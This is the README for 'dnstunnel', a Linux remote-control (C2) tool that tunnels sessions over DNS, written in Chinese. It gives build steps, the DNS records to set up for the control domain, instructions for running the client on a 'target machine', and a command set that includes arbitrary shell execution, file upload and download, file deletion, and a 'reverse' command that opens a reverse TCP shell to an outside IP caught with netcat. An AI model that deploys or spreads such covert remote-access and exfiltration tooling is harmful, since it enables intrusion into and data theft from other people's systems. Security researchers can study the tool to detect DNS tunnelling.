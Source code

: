 # dnstunnel
一款LINUX下的支持多会话的二进制DNS隧道远控，一个服务端可以连接多个客户端（暂未做充分测试，欢迎提issue）。
# 说明
DNS通道传输能力非常有限，速率比较低，传输大量的字节需要很长时间。支持PowerPC、ARM、MIPSeb、MIPSel、x86、x86_64等各平台gcc编译使用，交叉编译时注意要先静态编译好zlib(https://github.com/madler/zlib)，然后修改Makefile这一行libz.a的位置：
```
LINKOBJ  = ../common/base32.o log.o ui.o dns.o server.o ../common/util.o ../common/udp.o app.o gateway.o worker.o cmd.o session.o /usr/lib/x86_64-linux-gnu/libz.a
```
客户端默认是静态链接的，是为了防止glibc版本不兼容，有需要可以改成动态链接以减小体积。
## 交互设计
![avatar](https://raw.githubusercontent.com/bigBestWay/dnstunnel/master/flow.jpg)

协议更新前后效果对比： 
传输9K左右数据，使用停等协议需要3分47秒，使用选择性重传（滑动窗口）协议需要1分53秒。
# 编译
依赖zlib  
```
./build.sh
```
编译debug版本  
```
./build.sh debug
```
# 域名配置
使用者需要在域名服务做如下配置(以gandi.net为例):  
添加一条A记录: 
```
ns1 10800 IN A 55.55.55.55
```
再添加一条NS记录: 
```
1 1800 IN NS ns1.test.website.
```
# 使用说明
按照以上添加后, 在55.55.55.55上启动NDNS_server
```
./NDNS_server
```
在目标机带参数启动NDNS_client
```
./NDNS_client .1.test.website
```
# 用户界面
支持如下命令
```
session <list|clientid>
getuid
upload <local> <remote>
download <remote> <local>
bash <shell cmd>
move <src> <dst>
mkdir <dir>
rmdir <dir>
rename <old> <new>
list
rm <file>
cd <dir>
pwd
hostip
reverse <ip> <port>
Session[29727]>>
```
## session
```
session list
```
列出当前所有会话
```
session clientid
```
切换到对应会话  
## getuid  
```
getuid
```
获取当前远程会话的用户ID  
## upload
```
upload aaa bbb
```
将本地文件aaa上传到远程会话机器bbb，限制文件aaa压缩后要小于430字节  
## download
```
download aaa bbb
```
将远程文件aaa下载到本地为bbb，下载速率大概20-30字节/秒，所以千万不要下载大文件，否则耗时超级长  
## bash
```
bash which python
```
可执行任意shell命令，返回执行结果，注意不要执行需要交互的命令  
## move
```
move <src> <dst>
```
和mv功能一致，暂未实现，可能用处很少  
## mkdir
```
mkdir aaa
```
在远端创建文件夹aaa  
## rmdir  
删除远端文件夹  
## rename  
重命令文件  
## list
```
list
```
在远端程序当前目录执行ls -lrt并返回结果  
## rm  
删除远端文件  
## cd  
切换远端程序当前目录  
## pwd  
获取远端程序当前目录  
## hostip  
获取远端机器的出口ip和主机名
## reverse
反弹TCP shell，服务端使用nc -lvnp 56789接收
```
reverse 112.55.4.22 56789
```
# systemd-resolve占用53端口的解决方法
以ubuntu为例，编辑
```
/etc/systemd/resolved.conf
```
按下面修改
```
[Resolve]
DNS=8.8.8.8  #取消注释，增加dns
#FallbackDNS=
#Domains=
#LLMNR=no
#MulticastDNS=no
#DNSSEC=no
#Cache=yes
DNSStubListener=no  #取消注释，把yes改为no
```
重启服务
```
systemctl restart systemd-resolved
```